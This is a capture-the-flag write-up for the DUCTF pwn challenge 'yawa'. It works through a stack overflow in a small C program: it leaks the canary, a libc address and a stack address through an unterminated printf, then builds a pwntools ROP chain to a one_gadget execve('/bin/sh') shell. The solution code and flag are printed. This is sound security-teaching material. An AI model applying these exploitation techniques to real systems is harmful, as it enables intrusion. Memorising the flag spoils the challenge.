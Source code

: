 # yawa \[109 Points] (184 Solves)
```
Yet another welcome application.
```
Attached are [4 files](./attachment)

---

## Writeup

The source code is pretty minimal
```c
int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
        } else {
            break;
        }
    }
}
```

The first thing that jumps is
```c
read(0, name, 0x88);
```
We are reading 0x88 (136) bytes into name, but name's size is only 88 bytes!

Wait, let's run checksec
```
$ checksec yawa
[*] './yawa'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```
Ok, there's canary, and it's 64 bit so we can't brute force it (about 2**56 options to guess). \
If we can't guess it, can we leak it? What our other options in the program? \
We can print our name!
```c
printf("Hello, %s\n", name);
```
Because there's nothing in the `read` before to put a null byte in the end of the buffer,
and now we are printing it until the null byte, so **if we write just enough data**,
_we can leak the canary!_

Let's write some utility functions
```py
def set_name(name):
    io.sendlineafter(b"> ", b"1")
    if len(name) >= 0x88:
        io.send(name[:0x88])
    else:
        io.sendline(name)
def get_name():
    io.sendlineafter(b"> ", b"2")
    io.recvuntil(b"Hello, ")
    return io.recvuntil(b"\n1. Tell me your name", drop=True)
def stop():
    io.sendlineafter(b"> ", b"3")
```

And now a function to leak an address on the stack after our name.
```py
def leak_idx(idx, size):
    set_name(cyclic(idx-1))
    leak = get_name()[idx:idx+size]

    if len(leak) != size:
        log.warn(f"len(leak) != size: {len(leak)} != {size}")

    return leak
```
First **we set the name to a string of the length of the we want to leak minus 1**. \
*We subtract 1 because that's the index we wanna leak, so if we would to overwrite it,
we wouldn't be able to read it's value.* \
Then to **actually leak it**, we run `get_name`, and take **only the relevant part**. \
_There's also a check to warn us in case our leak isn't actually of the correct size.
This might happen if there's a null byte in the data we are leaking_

### Leaking the canary
The least significant byte (the first in the memory) of the canary is always `\x00` to prevent it's leakage via printing \
Luckly, we can just overwrite this byte, get the following 7 bytes, and then add it back.
```py
canary = u64(b"\x00" + leak_idx(88+1, 7))
log.success("canary leak: {}".format(hex(canary)))
```

Ok, so now we have the canary, and we can do ROP! \
I decided to use one_gadget, and for it we will have to leak libc, for which we
use the same technique. \
Where can we find a libc address? The C `main` function is called from inside
`libc`, so if we get it, we can leak libc.
```py
libc_leak = u64(leak_idx(88+16,8).ljust(8, b"\x00"))
libc.address = libc_leak - 0x29d90
log.success("libc addr: {}".format(hex(libc.address)))
```
The address has a `\x00` in the most significant bytes, so if we receive less, we
just pad with zeros.

Ok, now let's run `one_gadget` against the provided libc
```c
0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

Running in gdb we notice that `rax` is already `NULL`, so we just need to satisfy the `rbp` constraint. \
For that we also need to leak ASLR, for which we just find a stack address with gdb
```py
aslr = u64(leak_idx(88+48,8).ljust(8, b"\x00"))
log.success("aslr leak: {}".format(hex(aslr)))
```

And now finally use everything we leaked to make a rop chain and run it
```py
one_gadget = 0xebd43
rop = ROP(exe)
rop.raw(libc.address + 0x2a2e0)     # pop rbp
rop.raw(aslr-248+0x70)              # Offset such that [rbp-0x70] == 0 (one_gadget constraint)
rop.raw(libc.address + one_gadget)  # one_gadget
rop.raw(0)                          # This is the 0 rbp will use

set_name(fit({
    88: canary,
    88+16: rop.chain()
}))

stop()
```

Final [solve.py](./solve.py)

Success!

**Flag:** `DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`
